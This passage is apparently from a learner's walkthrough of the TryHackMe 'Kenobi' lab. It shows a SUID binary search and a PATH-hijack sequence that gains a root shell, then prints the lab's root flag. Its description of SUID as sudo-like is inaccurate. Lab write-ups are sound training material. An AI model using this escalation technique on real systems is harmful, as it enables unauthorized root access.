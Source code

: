 ### Question 1
 What file looks particularly out of the ordinary?

 Running the following command `find / -perm -u=s -type f 2>/dev/null` which will list a series of commands which are owned by root but can be run by Kenobi with using `sudo`.

 Looking at the commands that were listed there were 2 that I noticed being slightly strange `/usr/bin/at` and `/usr/bin/menu`. As the question was asking for a work made of 4 letter it is not going to be `/usr/bin/at`

 ![SUID listed commands](/images/tryhackme/kenobi/14SUID.png)

 Answer Task 4 Question 1: /usr/bin/menu

 Honestly I had to look up SUID to fully understand what the command was doing and I am still not 100% sure my explaination is correct. [Linux permissions: SUID, SGID, and sticky bit](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)

### Question 2
 Run the binary, how many options appear?

 Running the command is as simple as entering its path into the terminal `/usr/bin/menu`

 ![Running `/usr/bin/menu`](/images/tryhackme/kenobi/15MenuCommand.png)

 Answer Task 4 Question 2: 3

### Question 3 - No Answer Required
 Using `/usr/bin/menu` we are going to gain a root shell. All the commands for this are written within the task but I am going to reiterate them here just incase.

 ```
 echo /bin/sh > curl
 chmod 777 curl
 export PATH=/tmp:$PATH
 /usr/bin/menu
 ```

 ![Gaining Root shell](/images/tryhackme/kenobi/16RootShell.png)

 Select option 1. Now you have a root shell. From here you can navigate to `/root/` and print out `root.txt`

 Answer Task 4 Question 4: 177b3cd8562289f37382721c28381f02

 ![Root.txt](/images/tryhackme/kenobi/17RootTXT.png)

## Summary
 With that last bit Kenobi is completed. While this room gave a lot of guidance on how to complete it there were still some bits that required a small amount of research. Looking back on how I approached some of the tasks there are a lot of things that I could have done differently and some of the commands that the room said to run could have been completely ignored (given my completely overkill Nmap scan at the start of tthe room) but it is a learning journey and I feel like I have learnt quite a bit.